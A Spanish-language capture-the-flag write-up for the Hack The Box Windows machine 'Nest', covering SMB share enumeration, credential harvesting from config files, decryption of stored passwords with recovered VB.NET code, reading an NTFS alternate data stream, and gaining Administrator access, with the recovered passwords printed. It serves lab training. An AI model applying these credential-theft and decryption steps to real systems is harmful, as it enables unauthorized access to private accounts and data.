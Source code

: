 
- Maquina: Windows
- Level: Easy
- IP: 10.10.10.178

## Herramientas a utilizar:

- nmap
- smbclient 
- smbget

```
nmap -sC -sV -o scan_nest.txt 10.10.10.178
```
Podemos verificar que esta maquina tiene SMB abierto.
|PORT|STATE SERVICE|VERSION|
|---|---|---|
|445/tcp| open | microsoft-ds?
>Host script results:
|_clock-skew: 1m32s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required


El cual podemos enumerar con y verificar los share disponible
```
smbclient -L \\\\10.10.10.178 
```

Utilizaremos el share `data` por que puede ser accedido sin credenciales.
```
smbclient \\\\10.10.10.178\\Data
smb: \> recurse on 
smb: \> ls
smb: \> cd Shared\Templates\HR\
smb: \> cd \Shared\Templates\HR\> ls
```

Aqui encontraremo un archivo el cual descargaremos a nuestra maquina para posterior revision.
```
smb: \> mget "Welcom Email.txt"
```

Luego iremos a siguiente directorio:
```
smb: \> cd ../../Maintenance\
```
Tambien descargaremos `Maintenance Alerts.txt` para su posterior revision.
```
smb: \Shared\Maintenance\> mget "Maintenance Alerts.txt"
```

>Al abrir el archivo: Maintenance Alerts.txt encontraremos lo siguiente:
Username: TempUser
Password: welcome2019

Ahora tenemos las credenciales del usuario TempUser.
```
smbclient \\\\10.10.10.178\\Data -U TempUser
smb: \> recurse on
smb: \> ls
```

Ahora al listar veremos el directorio de TI por lo cual descargaremos todos directorio TI.
```
smbget -R smb://10.10.10.178/Data/ -U TempUser
```
Bucando entre todo el contenido descargado veremos dos archivo my peculiares
`RU_Config.xml`
`config.xml`
```
Data//IT/Configs/RU Scanner/RU_Config.xml
```
En el archivo `RU_Config.xml` veremos:
> <?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
 <Port>389</Port>
 **<Username>c.smith</Username>**
 **<Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>**
</ConfigFile>

En el archivo `config.xml` veremos:
```
Data//IT/Configs/NotepadPlusPlus/config.xml
```

><?xml version="1.0" encoding="Windows-1252" ?>
<NotepadPlus>
[SNIP]
 <History nbMaxFile="15" inSubMenu="no" customLength="-1">
 <File filename="C:\windows\System32\drivers\etc\hosts" />
 <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
 <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
 </History>
</NotepadPlus>

Aqui al parecer podemos alguien estaba accediendo al archivo en el recurso compartido **Secure$**
así como tambien al archivos en el escritorio del usuario de **C.Smith.**

Verificamos si podemos acceder **Secure$** como TempUser:

```
smbclient \\\\10.10.10.178\\Secure$ -U TempUser
```
Pero con el usuario TempUser no tenemos acceso pero si directamente en `IT\Carl\`
```
smbget -rR smb://10.10.10.178/Secure$/IT/Carl/ -U TempUser
```
En este directorio encontramos dos archivo `Module1.vb` and `Utils.vb`
>Que despues de muchas vuelta he caido encuenta que estos archivos los puedo utilizar para descryptar el password encontrado en el archivo `RU_config.xml`.

Pero para lograr hacerlo debo unificar ambos archivos y en 
```
https://dotnetfiddle.net
```
El contenido del archivo seria:
```
Imports System.Text
Imports System.Security.Cryptography
Public Class Utils
	Public Class ConfigFile
 Public Property Port As Integer
 Public Property Username As String
 Public Property Password As String

 Public Sub SaveToFile(Path As String)
 Using File As New System.IO.FileStream(Path, System.IO.FileMode.Create)
 Dim Writer As New System.Xml.Serialization.XmlSerializer(GetType(ConfigFile))
 Writer.Serialize(File, Me)
 End Using
 End Sub

 Public Shared Function LoadFromFile(ByVal FilePath As String) As ConfigFile
 Using File As New System.IO.FileStream(FilePath, System.IO.FileMode.Open)
 Dim Reader As New System.Xml.Serialization.XmlSerializer(GetType(ConfigFile))
 Return DirectCast(Reader.Deserialize(File), ConfigFile)
 End Using
 End Function
 
End Class
 Public Shared Function DecryptString(EncryptedString As String) As String
 If String.IsNullOrEmpty(EncryptedString) Then
 Return String.Empty
 Else
 Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
 End If
 End Function

 Public Shared Function Decrypt(ByVal cipherText As String, _
 ByVal passPhrase As String, _
 ByVal saltValue As String, _
 ByVal passwordIterations As Integer, _
 ByVal initVector As String, _
 ByVal keySize As Integer) _
 As String
 Dim initVectorBytes As Byte()
 initVectorBytes = Encoding.ASCII.GetBytes(initVector)
 Dim saltValueBytes As Byte()
 saltValueBytes = Encoding.ASCII.GetBytes(saltValue)
 Dim cipherTextBytes As Byte()
 cipherTextBytes = System.Convert.FromBase64String(cipherText)
 Dim password As New Rfc2898DeriveBytes(passPhrase, _
 saltValueBytes, _
 passwordIterations)
 Dim keyBytes As Byte()
 keyBytes = password.GetBytes(CInt(keySize / 8))
 Dim symmetricKey As New AesCryptoServiceProvider
 symmetricKey.Mode = CipherMode.CBC
 Dim decryptor As ICryptoTransform
 decryptor = symmetricKey.CreateDecryptor(keyBytes, initVectorBytes)
 Dim memoryStream As System.IO.MemoryStream
 memoryStream = New System.IO.MemoryStream(cipherTextBytes)
 Dim cryptoStream As CryptoStream
 cryptoStream = New CryptoStream(memoryStream, _
 decryptor, _
 CryptoStreamMode.Read)
 Dim plainTextBytes As Byte()
 ReDim plainTextBytes(cipherTextBytes.Length)
 Dim decryptedByteCount As Integer
 decryptedByteCount = cryptoStream.Read(plainTextBytes, _
 0, _
 plainTextBytes.Length)
 memoryStream.Close()
 cryptoStream.Close()
 Dim plainText As String
 plainText = Encoding.ASCII.GetString(plainTextBytes, _
 0, _
 decryptedByteCount)
	System.Console.WriteLine(plainText)
	Return plainText
 End Function

Public Class SsoIntegration
 Public Property Username As String
 Public Property Password As String
End Class

 Sub Main()
 Dim test As New SsoIntegration With {.Username = "c.smith", .Password = Utils.DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")}
 End Sub
End Class
```

Con este codigo podemos tener el password del usuario `C.Smith`
**password: xRxRxPANCAK3SxRxRx**

Ahora probaremos con el usuario y clave encontrado
```
smbclient \\\\10.10.10.178\\Users -U C.Smith
cd C.Smith
get user.txt
```
Listo no fue nada facil, pero ya tenemos la primera flag 👏

Ahora a por el root donde en el siguiente directorio
 `C.Smith\HQK Reporting` 
 Veremos dos archivos
 `Debug Mode Password.txt` y `Debug Mode Password.txt:Password`

Veremos el archivo `debug mode password.txt:password` este archivo en particular tiene un formato **File-Streams** que investigando me encontre que:
https://docs.microsoft.com/en-us/windows/win32/fileio/file-streams

>Es una secuencia de bytes. En el sistema de archivos NTFS, las secuencias contienen los datos que se escriben en un archivo y que brindan más información sobre un archivo que los atributos y propiedades. Por ejemplo, puede crear una secuencia que contenga palabras clave de búsqueda o la identidad de la cuenta de usuario que crea un archivo.

```
more "Debug Mode Password.txt:Password"
```
Y en este tenemos un password:
**PASSWORD DEBUG: WBQ201953D8w**

Hacemos un telnet por el puerto 4386
```
telnet 10.10.10.178 4386
DEBUG WBQ201953D8w 
setdir ..
setdir LDAP
showquery 2
Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```
Aqui encontramos un password y utilizaremos la siguiente web en la cual encontramos un codigo que copiaremos.
https://pastebin.com/RfZhBcq9


Luego debemos ir a:
https://dotnetfiddle.net/Z9MZYl 

Copiamos y pegamos debemo parametrizar lo siguiente
Language: C#
Compiler: .net 4.7.2

Ejecutamos y el resultado sera:
The magical rootdance key is:
XtH4nkS4Pl4y1nGX

```
smbclient \\\\10.10.10.178\\c$ -U Administrator
cd \Users\Administrator\Desktop\
more root.txt
```

